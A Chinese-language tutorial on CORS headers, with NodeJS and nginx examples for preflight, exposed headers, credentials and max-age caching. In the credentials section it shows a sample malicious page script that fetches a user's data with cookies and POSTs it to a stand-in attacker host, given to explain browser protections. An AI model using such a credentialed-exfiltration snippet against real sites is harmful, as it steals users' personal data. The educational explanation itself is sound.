





## 行前準備

本篇文章，會大量用到 NodeJS HTTP Server 作為程式碼範例，為了避免重複，所以這邊先把基礎架構設定好

httpServers.ts

```ts
import { createServer } from "http";

export const http5000Server = createServer().listen(5000);
export const http5001Server = createServer().listen(5001);
```

index.ts

```ts
import { faviconListener } from "../listeners/faviconListener";
import { notFoundListener } from "../listeners/notFoundlistener";
import { http5000Server, http5001Server } from "./httpServers";

// 白頁，等等都透過 http://localhost:5000 的 F12 > Console
// 去發起 fetch 請求
http5000Server.on("request", function requestListener(req, res) {
  res.end();
  return;
});

// cross-origin resources
http5001Server.on("request", function requestListener(req, res) {
  if (req.url === "/favicon.ico") return faviconListener(req, res);
  // 等等的範例程式碼會放在這裡...
  return notFoundListener(req, res);
});
```

## CORS Headers 整理

<table>
  <thead>
    <tr>
      <th>Header Name</th>
      <th>Header Type</th>
      <!-- <th>Explain</th> -->
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Access-Control-Allow-Origin</td>
      <td>Response</td>
      <!-- <th>-</th> -->
    </tr>
    <tr>
      <td>Access-Control-Allow-Headers</td>
      <td>Response</td>
      <!-- <th>-</th> -->
    </tr>
    <tr>
      <td>Access-Control-Allow-Methods</td>
      <td>Response</td>
      <!-- <th>-</th> -->
    </tr>
    <tr>
      <td>Access-Control-Allow-Credentials</td>
      <td>Response</td>
      <!-- <td>Explain</td> -->
    </tr>
    <tr>
      <td>Access-Control-Max-Age</td>
      <td>Response</td>
      <!-- <td>Explain</td> -->
    </tr>
    <tr>
      <td>Access-Control-Expose-Headers</td>
      <td>Response</td>
      <!-- <td>Explain</td> -->
    </tr>
    <tr>
      <td>Access-Control-Request-Method</td>
      <td>Request</td>
      <!-- <td>Explain</td> -->
    </tr>
    <tr>
      <td>Access-Control-Request-Headers</td>
      <td>Request</td>
      <!-- <td>Explain</td> -->
    </tr>
  </tbody>
</table>

## Preflight Request + Redirection

<!-- todo-yus https://claude.ai/chat/97fdfe20-8ec6-45a8-acec-71a86339d2b9 -->

## CORS-safelisted request header & Access-Control-Allow-Headers

CORS 請求，參考 [fetch.spec.whatwg.org](https://fetch.spec.whatwg.org/#cors-safelisted-request-header)，預設不會觸發 preflight request 的 request headers 如下：

- `Accept`
- `Accept-Language`
- `Content-Language`
- `Content-Type`
- `Range`

P.S. 針對以上 request headers 的 value，若要不觸發 preflight request，還有額外限制，有興趣的[自行參考](https://fetch.spec.whatwg.org/#cors-safelisted-request-header)

我們在 `http5001Server` 新增以下區塊

```ts
if (req.url === "/access-control-allow-headers") {
  if (req.method === "OPTIONS") {
    res.writeHead(204, {
      "access-control-allow-origin": "http://localhost:5000",
      "access-control-allow-headers": "authorization",
    });
    res.end();
    return;
  }
  res.writeHead(200, {
    "access-control-allow-origin": "http://localhost:5000",
    "access-control-allow-headers": "authorization",
  });
  res.end();
  return;
}
```

從 http://localhost:5000/ 的 F12 > Console 戳看看

```js
fetch("http://localhost:5001/access-control-allow-headers", {
  headers: {
    authorization: "Basic 123",
  },
});
```

Preflight Request，這時候還不會帶上 `authorization` Request Header


Actual Request，這時候就會帶上 `authorization` Request Header


## CORS-safelisted response header & Access-Control-Expose-Headers

CORS 請求，參考 [fetch.spec.whatwg.org](https://fetch.spec.whatwg.org/#cors-safelisted-response-header-name)，預設能透過 JavaScript 讀取的 response headers 如下：

- `Cache-Control`
- `Content-Language`
- `Content-Length`
- `Content-Type`
- `Expires`
- `Last-Modified`
- `Pragma`

從 http://localhost:5000/ 的 F12 > Console 試試看戳自己，確實可以拿到所有 response headers

```js
fetch("http://localhost:5000/").then(res => console.log(Object.fromEntries(res.headers.entries())))

// result
{
  "connection": "keep-alive",
  "content-length": "0",
  "date": "Mon, 07 Jul 2025 06:38:28 GMT",
  "keep-alive": "timeout=5"
}
```



接著在 `http5001Server` 新增以下區塊

```ts
if (req.url === "/cors-safelisted-response-header") {
  res.writeHead(200, {
    "access-control-allow-origin": "http://localhost:5000",
    "cache-control": "cache-control",
    "content-language": "content-language",
    "content-length": 0,
    "content-type": "text/html",
    expires: "expires",
    "last-modified": "last-modified",
    pragma: "pragma",
    "x-custom-header1": "x-custom-value1",
  });
  res.end();
  return;
}
```

從 http://localhost:5000/ 的 F12 > Console 戳看看，確實如同 spec 的描述，只能透過 JavaScript 讀取這些 Response Headers

```js
fetch("http://localhost:5001/cors-safelisted-response-header").then(res => console.log(Object.fromEntries(res.headers.entries())))

// result
{
  "cache-control": "cache-control",
  "content-language": "content-language",
  "content-length": "0",
  "content-type": "text/html",
  "expires": "expires",
  "last-modified": "last-modified",
  "pragma": "pragma"
}
```

使用 `Access-Control-Expose-Headers`，就可以增加 JavaScript 能讀取的 Response Headers

```ts
if (req.url === "/access-control-expose-headers") {
  res.writeHead(200, {
    "access-control-allow-origin": "http://localhost:5000",
    "cache-control": "cache-control",
    "content-language": "content-language",
    "content-length": 0,
    "content-type": "text/html",
    expires: "expires",
    "last-modified": "last-modified",
    pragma: "pragma",
    "access-control-expose-headers": "connection, date, keep-alive",
  });
  res.end();
  return;
}
```

從 http://localhost:5000/ 的 F12 > Console 戳看看，可以看到 `connection, date, keep-alive` 都可以讀取了～

```js
fetch("http://localhost:5001/access-control-expose-headers").then(res => console.log(Object.fromEntries(res.headers.entries())))

// result
{
  "cache-control": "cache-control",
  "connection": "keep-alive",
  "content-language": "content-language",
  "content-length": "0",
  "content-type": "text/html",
  "date": "Mon, 07 Jul 2025 10:53:13 GMT",
  "expires": "expires",
  "keep-alive": "timeout=5",
  "last-modified": "last-modified",
  "pragma": "pragma"
}
```

## 大魔王 Access-Control-Allow-Credentials

先看看 [fetch.spec.whatwg.org](https://fetch.spec.whatwg.org/#credentials) 針對 `Credentials` 的描述

```
Credentials are HTTP cookies, TLS client certificates, and authentication entries (for HTTP authentication).
```

再來看看 `authentication entries` 的描述

```
An authentication entry and a proxy-authentication entry are tuples of username, password, and realm, used for HTTP authentication and HTTP proxy authentication, and associated with one or more requests.

User agents should allow both to be cleared together with HTTP cookies and similar tracking functionality.
```

大致拆解一下

- HTTP cookies => 就是指 `cookie` Request Header
- TLS client certificates => 已超出 HTTP 的範疇，本篇文章不討論
- authentication entries => 可參考 [Nginx HTTP Basic Auth 小結](../http/http-authentication.md#nginx-http-basic-auth-小結)

### cookie

瀏覽器打開 http://localhost:5001/ ，F12 > Application > Cookies，先塞個 `hello=world` 進去


從 http://localhost:5000/ 的 F12 > Console 戳看看

```js
fetch("http://localhost:5001/access-control-allow-headers", {
  credentials: "include",
});
```

應該會看到以下錯誤


要注意的是，`cookie` 還是有被送出，Server 有收到 HTTP Request 並且回傳 HTTP Response，只是瀏覽器擋住 HTTP Response，不讓 JavaScript 讀取而已


如果瀏覽器不擋住 JavaScript 讀取 Response 的話，攻擊者就可以構造一個惡意的網站，竊取被害者（點開網站的人類）在 FaceBook 的個人資料，並且送到攻擊者架的 Server

```html
<script>
  // https://www.facebook.com/userInfo 這是假的 API EndPoint，只是舉例用
  fetch("https://www.facebook.com/userInfo", { credentials: "include" })
    .then((res) => res.text())
    .then((userInfo) =>
      fetch("https://attacker.website", { method: "POST", body: userInfo }),
    );
</script>
```

事實上，古早時期就發生過類似的漏洞，叫做 [XST (Cross Site Tracing)](../http/http-request-methods-2.md#xst-cross-site-tracing)

不過，以上漏洞要成立的話，除了 "瀏覽器不擋住 JavaScript 讀取 Response" 的前提，還需要

1. 目標網址（https://www.facebook.com/userInfo）使用 cookie 驗證身分
2. `fetch` 到目標網址（https://www.facebook.com/userInfo）須滿足 `Simple Request`（不能發送 preflight request，否則在 preflight request 階段就會被擋下來）
3. 受害者的瀏覽器已登入 https://www.facebook.com/userInfo
4. 受害者要點開攻擊者構造的惡意網站（這部分就要搭配釣魚攻擊、社交工程等等）

另外補充，`CSRF` 是無法透過 `Access-Control-Allow-Credentials` 來保護的喔！

- `CSRF` 是需要在 HTTP Request 階段，Server 透過 `CSRF Token` 來過濾跨域請求
- `Access-Control-Allow-Credentials` 則是瀏覽器的安全機制，HTTP Request 包含 `cookie` 且 HTTP Response 沒設定 `Access-Control-Allow-Credentials` 的話，就禁止 JavaScript 讀取 HTTP Response

### authentication entries

測試流程稍微複雜一點，但大部分流程都跟 [Nginx HTTP Basic Auth](../http/http-authentication.md#nginx-http-basic-auth) 一樣

1. 本機安裝 nginx，windows 系統可參考上面的連結，Mac 可使用

```zsh
brew install nginx
brew services start nginx
```

2. 進到 `nginx.conf`，新增以下設定

```conf
server {
  # 統一在 server 層級加上 CORS header
  add_header Access-Control-Allow-Origin "http://localhost:5000";
  add_header Access-Control-Allow-Credentials "true";
  add_header Access-Control-Allow-Methods "GET, PUT, OPTIONS";

  location = / {
    # 處理 OPTIONS 請求
    if ($request_method = 'OPTIONS') {
      return 204;
    }

    ## Basic Auth
    auth_basic "Restricted Area";
    auth_basic_user_file htpasswd;

    # 不使用 return 是因為 return always 執行，即便 Basic Auth 沒通過
    # 不使用 root, index, try_files 是因為 nginx serve 靜態檔案會限制 request method（GET, HEAD...）
    # 故使用 proxy_pass，自己架一個後端來回傳自定義內容
    proxy_pass http://localhost:5001;
  }
}
```

3. 跟 `nginx.conf` 同一層資料夾，新增 htpasswd 檔案，可參考上面的連結

4. `http5001Server` 新增以下區塊

```ts
// nginx basic auth proxy pass
if (req.url === "/") {
  res.setHeader("Content-Type", "text/plain");
  res.end("200 OK");
  return;
}
```

5. 重整 nginx

```
nginx -s reload # Windows
brew services restart nginx # Mac
```

6. 瀏覽器打開 http://localhost/ ，Mac 的話是 http://localhost:8080/ ，輸入帳密成功登入

7. 瀏覽器打開 http://localhost:5000/ ，F12 > Console 戳看看，`Authorization: Basic` 真的有被送出了！

```js
fetch("http://localhost:8080/", { credentials: "include" }).then(res => res.text()).then(text => console.log(text))

// result
200 OK
```



8. 承上一步驟，改成用 PUT Method 戳看看，也有成功送出～

```js
fetch("http://localhost:8080/", { method: "PUT", credentials: "include" }).then(res => res.text()).then(text => console.log(text))

// result
200 OK
```




## 跳過 Preflight Request? Access-Control-Max-Age 實際測試

先看看 [fetch.spec.whatwg.org](https://fetch.spec.whatwg.org/#http-access-control-max-age) 的描述

```
Indicates the number of seconds (5 by default) the information provided by the `Access-Control-Allow-Methods` and `Access-Control-Allow-Headers` headers can be cached.
```

我們在 `http5001Server` 新增以下區塊

```ts
if (req.url === "/access-control-max-age") {
  // 印出 req.method，確認瀏覽器真的有跳過 OPTIONS 請求
  console.log(req.method);
  if (req.method === "OPTIONS") {
    res.writeHead(204, {
      "access-control-allow-origin": "http://localhost:5000",
      "access-control-allow-methods": "PUT",
      "access-control-allow-headers": "authorization",
    });
    res.end();
    return;
  }
  res.writeHead(200, {
    "access-control-allow-origin": "http://localhost:5000",
    "access-control-allow-methods": "PUT",
    "access-control-allow-headers": "authorization",
  });
  res.end();
  return;
}
```

瀏覽器打開 http://localhost:5000/ ，F12 > Console 戳看看

```js
fetch("http://localhost:5001/access-control-max-age", { method: "PUT", headers: { Authorization: "Basic 123" } }).then(res =>
  fetch("http://localhost:5001/access-control-max-age", { method: "DELETE", headers: { Authorization: "Basic 123" } });
);
```

Server 印出的 log 如下，由於第二次是 DELETE Method，不在快取內，所以會觸發 Preflight Request

```
OPTIONS
PUT
OPTIONS
```

接著嘗試快取機制

```js
fetch("http://localhost:5001/access-control-max-age", { method: "PUT", headers: { Authorization: "Basic 123" } }).then(res =>
  fetch("http://localhost:5001/access-control-max-age", { method: "PUT", headers: { Authorization: "Basic 123" } });
);
```

Server 印出的 log 如下，由於第二次 HTTP Request 的 method 跟 header 都在快取，所以不會觸發 Preflight Request

```
OPTIONS
PUT
PUT
```

我們可以整理成 Sequence Diagram

<!-- todo 調整 -->

```mermaid
sequenceDiagram
    participant Browser
    participant Server

    title Access-Control-Max-Age

    Note over Browser, Server: First Fetch Request

    Browser->>Server: OPTIONS /path/to/resource HTTP/1.1<br/>Access-Control-Request-Method: PUT<br/>Access-Control-Request-Headers: Authorization

    Server->>Browser: HTTP/1.1 204 No Content<br/>Access-Control-Allow-Origin: http://localhost:5000<br/>Access-Control-Allow-Headers: Authorization<br/>Access-Control-Allow-Methods: PUT

    Note over Browser: Cache<br/>Access-Control-Allow-Headers<br/>Access-Control-Allow-Methods<br/>for 5 seconds

    Browser->>Server: PUT /path/to/resource HTTP/1.1<br/>Authorization: Basic xxx<br/><br/>Request Body

    Server->>Browser: HTTP/1.1 200 OK<br/>Access-Control-Allow-Origin: http://localhost:5000<br/>Access-Control-Allow-Headers: Authorization<br/>Access-Control-Allow-Methods: PUT<br/><br/>Response Body

    Note over Browser, Server: Second Fetch Request

    alt Cache Not Expire &&<br/>Headers Satisfy Access-Control-Allow-Headers &&<br/>Method Satisfies Access-Control-Allow-Methods
        Browser->>Server: Send Actual Request Directly
        %% Browser->>Server: PUT /path/to/resource HTTP/1.1<br/>Authorization: Basic xxx<br/><br/>Request Body
        %% Server->>Browser: HTTP/1.1 200 OK<br/>Access-Control-Allow-Origin: http://localhost:5000<br/>Access-Control-Allow-Headers: Authorization<br/>Access-Control-Allow-Methods: PUT<br/><br/>Response Body
    else Cache Expires ||<br/>Headers Not Satisfy Access-Control-Allow-Headers ||<br/>Method Not Satisfies Access-Control-Allow-Methods
        Browser->>Server: Send Preflight Request First
        %% Browser->>Server: PUT /path/to/resource HTTP/1.1<br/>Authorization: Basic xxx<br/><br/>Request Body
        %% Server->>Browser: HTTP/1.1 200 OK<br/>Access-Control-Allow-Origin: http://localhost:5000<br/>Access-Control-Allow-Headers: Authorization<br/>Access-Control-Allow-Methods: PUT<br/><br/>Response Body
    end

```

### 參考資料

- https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CORS/Errors
- https://developer.mozilla.org/en-US/docs/Glossary/CORS
- https://developer.mozilla.org/en-US/docs/Glossary/Preflight_request
- https://developer.mozilla.org/en-US/docs/Glossary/CORS-safelisted_request_header
- https://developer.mozilla.org/en-US/docs/Glossary/CORS-safelisted_response_header
- https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Allow-Origin
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Allow-Headers
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Allow-Methods
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Allow-Credentials
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Max-Age
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Expose-Headers
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Request-Method
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Access-Control-Request-Headers
